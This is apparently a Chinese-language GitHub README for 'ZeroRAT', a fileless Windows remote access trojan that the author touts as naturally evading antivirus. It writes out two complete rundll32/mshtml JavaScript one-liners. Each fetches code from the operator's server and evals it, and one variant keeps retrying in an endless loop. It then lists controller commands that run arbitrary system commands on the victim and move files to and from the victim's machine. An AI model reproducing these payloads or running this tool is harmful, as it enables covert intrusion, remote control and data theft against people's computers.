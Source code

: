 #ZeroRAT
##简介
适用于windows的远控，客户端只需要执行一条指令，利用windows原生的程序执行，不在磁盘写文件，具有天然免杀的特性。重启失效。

程序里的download和upload都是以客户端的视角。客户端从服务端下载文件叫做download，客户端上传文件到服务端叫做upload。

##配置
在config.py中修改客户端上线的地址和后台的管理密码，记得要检查下把debug关掉。

程序依赖flask和sqlite3，自行pip安装

##客户端
把`<server>:<ip>`替换成实际上线的地址

正常版

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://<server>:<ip>/connect",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```

不死版

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://<server>:<ip>/connect",false);while(1){try{h.Send();B=h.ResponseText;eval(B);}catch(e){}}
```

##服务端
后台： http://<server>:<ip>/server/

服务端支持的命令有

* sessions  列出活动的客户端
* use <id>  根据id选择客户端
* show globals/downloads/uploads  查看全局变量、客户端能下载的文件、客户端上传的文件
* delete session  删除当前客户端
* delete download/upload <id> 按照id删除文件
* upfile  上传文件到服务器，并添加到downloads列表
* download  设置好download_file和download_save_path两个变量即可让客户端下载文件并保存到download_save_path
* upload  设置upload_file变量，即可让客户端把upload_file的文件上传到服务器

除了上述的命令，其他均会被当做windows的系统命令来执行

命令详情请见/static/js/xkcd_cli.js

##开发
后台命令维护客户端 /static/js/xkcd_cli.js

后台命令维护服务端 /controllers/server.py

客户端维护 /controllers/client.py

客户端payload生成 payload.py

数据库操作相关 /models/

##联系方式
http://5alt.me

md5_salt [AT] qq.com

##参考资料
https://gist.github.com/subTee/f1603fa5c15d5f8825c0

http://drops.wooyun.org/tips/11764

https://github.com/chromakode/xkcdfools

http://www.kammerl.de/ascii/AsciiSignature.php

##TODO
* 完善命令
* heartbeat随任务量来决定sleep时间
* 通信流量加密
* 修改执行命令payload在客户端不出现黑框

